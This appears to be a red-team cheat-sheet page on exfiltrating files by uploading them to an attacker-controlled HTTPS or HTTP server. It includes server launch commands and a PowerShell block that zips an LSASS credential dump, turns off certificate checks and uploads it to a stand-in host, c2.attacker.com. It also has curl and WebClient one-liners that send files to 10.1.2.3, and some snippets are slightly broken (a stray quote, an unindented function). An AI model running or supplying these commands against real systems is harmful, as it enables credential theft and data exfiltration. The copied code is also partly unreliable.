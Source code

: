 # Using Curl to POST data to SimpleHTTPServerWithUpload.py


## ProjectDiscovery [SimpleHTTPServer](../../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver)
* Simple command for running
    ```bash
    simplehttpserver -https -upload
    simplehttpserver -https -upload -listen 0.0.0.0:443
    ```
* Upload a file via [curl](../../Useful_Commands/Linux.html#upload-files-via-curl)(Linux) or [powershell](../../Useful_Commands/Windows.html#download-uploading-files)(Windows). Try to [compress](../../Network/Data_Exfiltration/Windows-Archiving_and_Compression.md#powershell) first
    * Windows
       * Powershell
           * Possible to convert to one-liner and execute
                * `C:\Windows\system32>powershell "<b;e;l;o;w;>"`)
                * Unzip with `7z x lsass.zip`
          ```powershell
          Compress-Archive -LiteralPath C:\Windows\temp\lsass.dmp -DestinationPath C:\Windows\temp\lsass.zip
          [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
          
          $uri='https://c2.attacker.com/lsass.zip'
          $uploadPath = 'C:\Windows\temp\lsass.zip'
          Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials" 
          ```


---
## Python3 SimpleHTTPServer
* Caveats
   * Insecure communications (HTTP)
       * Choose a server that accepts POST request and makes use of HTTPS
* Download
   * [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan
* Modify listening port
   * If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
       ```python
       def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
       server_address = ('', 1337)
       httpd = ServerClass(server_address,HandlerClass)
       httpd.serve_forever()
       ```
* From client-side
* Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)
   * Linux
       ```bash
       curl -F "file=@flag.zip" http://10.1.2.3:8000/
       ```
   * Powershell
       ```powershell
       $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
       ```
